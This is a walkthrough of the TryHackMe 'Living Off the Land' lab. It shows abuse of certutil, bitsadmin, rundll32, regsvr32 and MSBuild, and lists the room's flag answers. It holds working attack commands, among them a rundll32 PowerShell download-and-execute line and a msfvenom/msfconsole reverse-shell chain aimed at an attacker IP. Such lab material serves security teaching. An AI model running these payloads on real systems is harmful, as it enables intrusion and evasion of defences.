


# [Living Off The Land](https://tryhackme.com/r/room/livingofftheland)


Learn the essential concept of "Living Off the Land" in Red Team engagements.

## Task 1 - Introduction

### What is "Living Off the Land"?

**Living Off the Land** is a trending term in the red team community. The name is taken from real-life, living by eating the available food on the land. Similarly, adversaries and malware creators take advantage of a target computer's built-in tools and utilities. The term **Living Off the Land** was introduced at [DerbyCon3](https://www.youtube.com/watch?v=j-r6UonEkUw) in 2013 and has gained more traction in the red team community ever since, becoming an often used and popular technique.


These built-in tools perform various regular activities within the target system or network capabilities; however, they are increasingly used and abused, for example, using the [CertUtil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) tool to download malicious files into the target machine.

The primary idea is to use Microsoft-signed programs, scripts, and libraries to blend in and evade defensive controls. Red teamers do not want to get detected when executing their engagement activities on the target, so utilizing these tools is safer to maintain their stealth.

The following are some categories that Living Off the Land encompasses:

* Reconnaissance
* Files operations
* Arbitrary code execution
* Lateral movement
* Security product bypass

### Learning objectives

* Learn about the term Living Off the Land of red team engagements.
* Learn about the LOLBAS project and how to use it.
* Understand and apply the techniques used in red teaming engagements.

### Room prerequisites

* Basic knowledge of general hacking techniques.
* Completing the [Jr. Penetration Tester](https://tryhackme.com/path-action/jrpenetrationtester/join) Learning Path.
* TryHackMe [Red Team Initial Access module](https://tryhackme.com/module/red-team-initial-access).

We have provided a Windows machine 10 Pro to complete this room. You can use the in-browser feature, or If you prefer to connect via RDP, make sure you deploy the AttackBox or connect to the VPN.

Use the following credentials below.

|Machine IP: MACHINE_IP|Username: thm|Password: TryHackM3|


### Answer the questions below

* Deploy the provided machine and move on to the next task.

## Task 2 - Windows Sysinternals


### What is Windows Sysinternals?

Windows Sysinternals is a set of tools and advanced system utilities developed to help IT professionals manage, troubleshoot, and diagnose the Windows operating system in various advanced topics. 

Sysinternals Suite is divided into various categories, including:

* Disk management
* Process management
* Networking tools
* System information
* Security tools

In order to use the Windows Sysinternals tools, we need to accept the Microsoft license agreement of these tools. We can do this by passing the `-accepteula` argument at the command prompt or by GUI during tool execution.

The following are some popular Windows Sysinternals tools:

|[AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)|Helps system administrators check specified access for files, directories, Registry keys, global objects, and Windows services.|
|[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)|A tool that executes programs on a remote system.|
|[ADExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)|An advanced Active Directory tool that helps to easily view and manage the AD database.|
|[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)|Monitors running processes for CPU spikes and the ability to dump memory for further analysis.|
|[ProcMon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)|An essential tool for process monitoring.|
|[TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)|A tool that lists all TCP and UDP connections.|
|[PsTools](https://docs.microsoft.com/en-us/sysinternals/downloads/pstools)|The first tool designed in the Sysinternals suite to help list detailed information.|
|[Portmon](https://docs.microsoft.com/en-us/sysinternals/downloads/portmon)|Monitors and displays all serial and parallel port activity on a system.|
|[Whois](https://docs.microsoft.com/en-us/sysinternals/downloads/whois)|Provides information for a specified domain name or IP address.|

For more information about the Sysinternals suite, you can visit the tools' web page on Microsoft Docs [here](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

### Sysinternals Live

One of the great features of Windows Sysinternals is that there is no installation required. Microsoft provides a Windows Sysinternals service, Sysinternals live, with various ways to use and execute the tools. We can access and use them through:

* Web browser ([link](https://live.sysinternals.com/)).
* Windows Share
* Command prompt

In order to use these tools, you either download them or by entering the Sysinternal Live path `\\live.sysinternals.com\tools` into Windows Explorer.


Note that since the attached VM does not have internet access, we pre-downloaded the Sysinternal tools in `C:\Tools\`.


If you are interested in learning more about Windows Sysinternals, we suggest to familiarize yourself with the following additional resources:

1. TryHackMe room: [Sysinternals](https://tryhackme.com/room/btsysinternalssg).
2. Microsoft Sysinternals Resources [website](https://docs.microsoft.com/en-us/sysinternals/resources/).

### Red Team utilization and benefits


Built-in and Sysinternals tools are helpful for system administrators, these tools are also used by hackers, malware, and pentesters due to the inherent trust they have within the operating system. This trust is beneficial to Red teamers, who do not want to get detected or caught by any security control on the target system. Therefore, these tools have been used to evade detection and other blue team controls. 

Remember that due to the increase of adversaries and malware creators using these tools nowadays, the blue team is aware of the malicious usage and has implemented defensive controls against most of them.

### Answer the questions below

* Read the above!

## Task 3 - LOLBAS Project

### What is LOLBAS?



LOLBAS stands for Living Off the Land Binaries And Scripts, a project's primary main goal is to gather and document the Microsoft-signed and built-in tools used as  Living Off the Land techniques, including binaries, scripts, and libraries.


The LOLBAS project is a community-driven repository gathering a collection of binaries, scripts, libraries that could be used for red team purposes. It allows to search based on binaries, functions, scripts, and ATT&CK info. The previous image shows what the LOLBAS project page looks like at this time. If you are interested in more details about the project, you may visit the project's website [here](https://lolbas-project.github.io/).

The LOLBAS website provides a convenient search bar to query all available data. It is straightforward to look for a binary; including the binary name will show the result. However, if we want to look for a specific function, we require providing a `/` before the function name. For example, if we are looking for all execute functions, we should use `/execute`. Similarly, in order to look based on types, we should use the `#` symbol followed by the type name. The following are the types included in the project:

* Script
* Binary
* Libraries
* OtherMSBinaries

### Tools Criteria

Specific criteria are required for a tool to be a "Living Off the Land" technique and accepted as part of the LOLBAS project:

* Microsoft-signed file native to the OS or downloaded from Microsoft.
* Having additional interesting unintended functionality not covered by known use cases.
* Benefits an APT (Advanced Persistent Threat) or Red Team engagement.

Please note that if you find an exciting binary that adheres to the previously mentioned criteria, you may submit your finding by visiting the [GitHub repo contribution page](https://github.com/LOLBAS-Project/LOLBAS#criteria) for more information.

### Interesting Functionalities

The LOLBAS project accepts tool submissions that fit one of the following functionalities:

* Arbitrary code execution
* File operations, including downloading, uploading, and copying files.
* Compiling code
* Persistence, including hiding data in Alternate Data Streams (ADS) or executing at logon.
* UAC bypass
* Dumping process memory
* DLL injection

### Answer the questions below

* Visit the [LOLBAS project's website](https://lolbas-project.github.io/) and check out its functionalities. Then, using the search bar, find the ATT&CK ID: `T1040`. What is the binary's name?

	

	**Answer : Pktmon.exe**

* Use the search bar to find more information about `MSbuild.exe`. What is the ATT&CK ID?
	
	

	**Answer : T1127.001**

* Use the search bar to find more information about `Scriptrunner.exe`. What is the function of the binary?

	

	**Answer : Execute**

* In the next task, we will show some of the tools based on the functionalities! Let's go!

## Task 4 - File Operations

This task shows commonly used tools based on functionalities and malware activities seen in the real world as well as in the red team engagements.

This task will highlight some interesting "Living Off the Land techniques that aim to be used in a file operation, including download, upload, and encoding.

### Certutil

Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. Therefore, the tool's normal use is to retrieve certificate information. However, people found that certutil.exe could transfer and encode files unrelated to certification services. The MITRE ATT&CK framework identifies this technique as Ingress tool transfer ([T1105](https://attack.mitre.org/techniques/T1105/)).

To illustrate this with an example, we can use `certutil.exe` to download a file from an attacker's web server and store it in the Window's temporary folder, using the command below. Note that we use the `-urlcache` and `-split -f` parameters to enforce the tool to download from the provided URL using the split technique.


`-urlcache` to display URL, enables the URL option to use in the command  
`-split -f` to split and force fetching files from the provided URL.

Also, the `certutil.exe` can be used as an encoding tool where we can encode files and decode the content of files. **ATT&CK [T1027](https://attack.mitre.org/techniques/T1027/) refers to this technique to obfuscate files to make them difficult to discover or analyze**.


For more information about the tool, you may visit the Microsoft Document here: [Microsoft Docs: CertUtil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

### BITSAdmin

The `bitsadmin` tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the `bitsadmin` tool can be found at [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

Attackers may abuse the BITS jobs to download and execute a malicious payload in a compromised machine. For more information about this technique, you may visit the ATT&CK [T1197](https://attack.mitre.org/techniques/T1197/) page.

Introduce the terminal container content (revisit)


`/Transfer` to use the transfer option  
`/Download` we are specifying transfer using download type  
`/Priority` we are setting the priority of the job to be running in the foreground

For more information about the `bitsadmin` parameters, you can visit the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) of the tool.

### FindStr

[Findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output. For example, if we want to check whether port 8080 is open on our machine, then we can pipe the result of netstat to find that port as follows: `netstat -an| findstr "445"`.

However, an unintended way was found by using `findstr.exe` to download remote files from SMB shared folders within the network as follows,


`/V` to print out the lines that don't contain the string provided.  
`dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.  
`> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine. 

Note that other tools can be used for the file operation. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/) project to check them out.

In the next task, we will introduce some of the tools used to execute files.

### Answer the questions below

* Run `bitsadmin.exe` to download a file of your choice onto the attached Windows VM. Once you have executed the command successfully, an encoded flag file will be created automatically on the Desktop. What is the file name?

	```
	bitsadmin.exe /transfer /Download /priority Foreground http://10.17.127.223:8000/payload.exe c:\Users\thm\Desktop\payload.exe
	```

	

	**Answer : enc_thm_0YmFiOG_file.txt**

Use the `certutil.exe` tool to decode the encoded flag file from question #1. In order to decode the file, we use `-decode` option as follow:


* What is the file content?

	```
	certutil -decode enc_thm_0YmFiOG_file.txt payload.txt
	```

	

	**Answer : THM{ea4e2b9f362320d098635d4bab8a568e}**

## Task 5 - File Execution

This task shows various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line `cmd.exe` or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. Based on the MITRE ATT&CK framework, this technique is called Signed Binary Proxy Execution or Indirect Command Execution, where the attacker leverages other system tools to spawn malicious payloads. This technique also helps to evade defensive controls.

### File Explorer


File Explorer is a file manager and system component for Windows. People found that using the file explorer binary can execute other `.exe` files. This technique is called Indirect Command Execution, where the `explorer.exe` tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

The `explorer.exe` binary is located at:

* C:\Windows\explorer.exe for the Windows 64-bit version.
* C:\Windows\SysWOW64\explorer.exe for the Windows 32-bit version.

In order to create a child process of `explorer.exe` parent, we can execute the following command:


As a result of the previous command, we popped the calculator on the desktop.

### WMIC

Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. **The MITRE ATT&CK framework** refers to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/))


The previous `WMIC` command creates a new process of a binary of our choice, which in this case `calc.exe`.

### Rundll32

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library `DLL` files within the operating system. A red team can abuse and leverage `rundll32.exe` to run arbitrary payloads and execute JavaScript and PowerShell scripts. **The MITRE ATT&CK** framework identifies this as Signed Binary Proxy Execution: Rundll32 and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

The `rundll32.exe` binary is located at:

* C:\Windows\System32\rundll32.exe for the Windows 64-bit version.
* C:\Windows\SysWOW64\rundll32.exe for the Windows 32-bit version.

Now let's try to execute a `calc.exe` binary as proof of concept using the `rundll32.exe` binary:

```
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

In the previous command, we used the `rundll32.exe` binary that embeds a JavaScript component, `eval()`, to execute the `calc.exe` binary, a Microsoft calculator.

As we mentioned previously, we can also execute PowerShell scripts using the `rundll32.exe`. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using `rundll32.exe`.

```
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

As a result of the previous execution, a copy of the `script.ps1` downloaded into memory on the target machine.

### Answer the questions below

* Read the above and practice these tools on the attached machine!

## Task 6 - Application Whitelisting Bypasses

### Bypassing Application Whitelisting

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. This task focuses on LOLBAS examples that are used to bypass the Windows application whitelisting.

### Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. The regsvr.exe binary is located at:

* C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
* C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, `regsvr32.exe` binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting. According to [Red Canary](https://redcanary.com/) reports, the `regsvr32.exe` binary is the third most popular ATT&CK technique. Adversaries leverage `regsvr32.exe` to execute native code or scripts locally or remotely. The technique used in the `regsvr32.exe` uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting. 

Let's try to apply this technique in real life. First, we need to create a malicious `DLL` file using msvenom and set up our  Metasploit listener to receive a reverse shell. Note that we will be creating a malicious file that works for 32bit operating systems. We will be using the `regsvr32.exe` Application Whitelisting Bypass technique to run a command on a target system.


Note that we specified the output type as `DLL` using the `-f` argument. Once the malicious DLL file is generated, we need to deliver the payload to the victim machine. We will do this by using a webserver to serve the DLL file on our attacking machine as follows,


From the victim machine, visit the webserver of the attacking machine on port `1337` that we specify. Note that this port can be changed with your choice!

On the victim machine, once the file DLL file is downloaded, we execute it using `regsvr32.exe` as follows,


With the second option, which is a more advanced command, we instruct the `regsvr32.exe` to run:

* /s: in silent mode (without showing messages)
* /n: to not call the DLL register server
* /i:: to use another server since we used /n
* /u: to run with unregister method

On the attacking machine, we should receive a reverse shell.


Note if we wanted to create a 64-bit `DLL` version, we need to specify it in the `msfvenom` command and run it from the victim machine using the 64bits version of `regsvr32.exe` at C:\Windows\SysWOW64\regsvr32.exe.

### Bourne Again Shell (Bash)

In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019. This feature is known as Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. WSL is a Hyper-V virtualized Linux distribution that runs on the operating system, supporting a subset of the Linux kernel and system calls. This feature is an addon that a user can install and interact with a Linux distribution. As part of WSL, `bash.exe` is a Microsoft tool for interacting with the Linux environment. 

People found ways to execute payloads and bypass the Windows application whitelisting since it is a Microsoft signed binary. By executing `bash.exe -c "path-to-payload"`, we can execute any unsigned payload. ATT&CK called this an Indirect Command execution technique where attackers abuse the Windows tools utility to obtain command executions. For more information about this technique, you may visit the [T1202](https://attack.mitre.org/techniques/T1202/) ATT&CK website.


Note that you need to enable and install the Windows Subsystem for Linux in Windows 10 to use the `bash.exe` binary. Also, the attached VM does not have the Linux Subsystem enabled due to nested virtualization restrictions. 

Keep in mind that this section highlighted a couple of interesting tools. If you are interested in checking out the LOLBAS tools available, you may visit the [project website](https://lolbas-project.github.io/).

### Answer the questions below

* For more information about bypassing Windows security controls, we suggest checking the THM room: Bypassing UAC and Applocker once released!

## Task 7 - Other Techniques

This section highlights a couple of interesting techniques used, whether for initial access or persistence. The following techniques belong to the Living Off the Land umbrella since they can be used as part of the Windows environment utilities.

### Shortcuts

Shortcuts or symbolic links are a technique used for referring to other files or applications within the operating system. Once a user clicks on the shortcut file, the reference file or application is executed. Often, the Red team leverages this technique to gain initial access, privilege escalation, or persistence. The MITRE ATT&CK framework calls this **Shortcut modification technique** [T1547](https://attack.mitre.org/techniques/T1547/009/), where an attacker creates or modifies a shortcut in order to take advantage of this technique.

To use the shortcut modification technique, we can set the target section to execute files using:

* Rundll32
* Powershell
* Regsvr32
* Executable on disk


The attached figure shows an example of a shortcut modification technique, where the attacker modified the Excel target section to execute a binary using `rundll32.exe`. We choose to execute a calculator instead of running the Excel application. Once the victim clicks on the Excel shortcut icon, the `calc.exe` is executed. For more information about shortcut modification, you may check [this](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md) GitHub repo.

### No PowerShell!

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for malicious activities. Therefore, Organizations started to monitor or block powershell.exe from being executed. As a result, adversaries find other ways to run PowerShell code without spawning it.


PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

First, let's download a copy of the project from the GitHub repo onto the AttackBox:


One of the project requirements is to get a PowerShell payload to make it suitable to work with MSBuild. On the AttackBox, we need to generate a PowerShell payload using `msfvenom` as follows: 

```
user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

Also, we need to run the Metasploit framework to listen and wait for the reverse shell.

```
user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4443
[*] Started HTTPS reverse handler on https://AttackBox_IP:4443
```

Now that we have the payload ready, change to the PowerLessShell directory project to convert the payload to be compatible with the MSBuild tool. Then run the PowerLessShell tool and set the source file to the one we created with msfvenom as follows:

```
user@machine$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Once the command is executed successfully, we need to transfer the output file to the Windows machine. You can do this using the SCP command or set a web server to host the file on the AttackBox (python3 -m http.server 1337) and download the file using the browser.

Finally, on the target Windows machine, build the .csproj file and wait for the reverse shell!


Once we run the MSBuild command, wait a couple of seconds till we receive a reverse shell. Note that there will be no `powershell.exe` process is running.

### Answer the questions below

* Replicate the steps of the No PowerShell technique to receive a reverse shell on port `4444`. Once a connection is established, a flag will be created automatically on the desktop. What is the content of the flag file?

	* Create payload
	
		```
		msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.17.127.223 LPORT=4444 -f psh-reflection > liv0ff.ps1
		```

		

	* Create Listener on Attacker machine
	
		```
		msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.17.127.223;set lport 4444;exploit"
		```

		

	* Run PowerLessShell
	
		```
		python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output /tmp/liv0ff.csproj
		```

		

	* Create http server on Attacker machine
	
		```
		python3 -m http.server 1337
		```

		

	* Download **liv0ff.csproj** via web browser
	
		```
		http://10.17.127.223:1337/liv0ff.csproj
		```

		

	* Run MSbuild command
	
		```
		c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Users\thm\Downloads\liv0ff.csproj
		```

		

	* Get the shell and flag
	
		

	**Answer : THM{23005dc4369a0eef728aa39ff8cc3be2}**

## Task 8 - Real-life Scenario


This task introduces a showcase of malware that used the techniques discussed in this room.

In 2017, The Windows Defender Advanced Threat Protection ([Windows Defender ATP](https://www.microsoft.com/security/blog/2018/11/15/whats-new-in-windows-defender-atp/)) Research Team discovered Fileless malware named Astaroth. A fileless malware means that the malware runs and is executed in the system without writing to disk. The malware performs all its functions from the victim device's memory. 

Astaroth is known as an information stealer, which takes sensitive information from victim users, such as account credentials, keystrokes, and other data, and sends it to the attacker. The malware relies on various advanced techniques such as anti-debugging, anti-virtualization, anti-emulation tricks, process hollowing, NTFS Alternate Data Streams (ADS), and Living off the land binaries to perform different functions. 

In the initial access stage, attackers rely on a spam campaign that contains malicious attachment files. The attached file is an LNK file shortcut that, once the victim has clicked it, will result in the following:

* A **WMIC** command is executed to download and run Javascript code.
* Abusing the **BITSadmin** to download multiple binaries from the command and control server. Interestingly, in some cases, the malware uses YouTube channel descriptions to hide their C2 server commands.
* Using the **BITSadmin**, ADS technique, to hide their binaries within the system for their persistence.
* A **Certutil** tool is used to decode a couple of downloaded payloads into DLL files.
* The DLL files are executed using **Regsvr32**.

For more details about the malware and the detections, we suggest checking the following references:

1. [Astaroth: Banking Trojan](https://www.armor.com/resources/threat-intelligence/astaroth-banking-trojan/)
2. [Microsoft Discovers Fileless Malware Campaign Dropping Astaroth Info Stealer](https://www.trendmicro.com/vinfo/de/security/news/cybercrime-and-digital-threats/microsoft-discovers-fileless-malware-campaign-dropping-astaroth-info-stealer)
3. [Astaroth malware hides command servers in YouTube channel descriptions](https://www.zdnet.com/article/astaroth-malware-hides-command-servers-in-youtube-channel-descriptions/)

### Answer the questions below

* Read the above!

## Task 9 - Conclusion

In this room, we covered the general concept of Living Off the Land as well as went through some of the examples seen and used during red team engagements. The Living Off the Land techniques can be used for various purposes, including reconnaissance, file operations, execution binaries, and persistence and bypass security measures. 

Additional resources

* [GTFOBins](https://gtfobins.github.io/) - The Linux version of the LOLBAS project.
* [Astaroth: Banking Trojan](https://www.armor.com/resources/threat-intelligence/astaroth-banking-trojan/) - A real-life malware analysis where they showcase using the Living Off the Land technique used by Malware.
 
### Answer the questions below

* Good work and keep learning!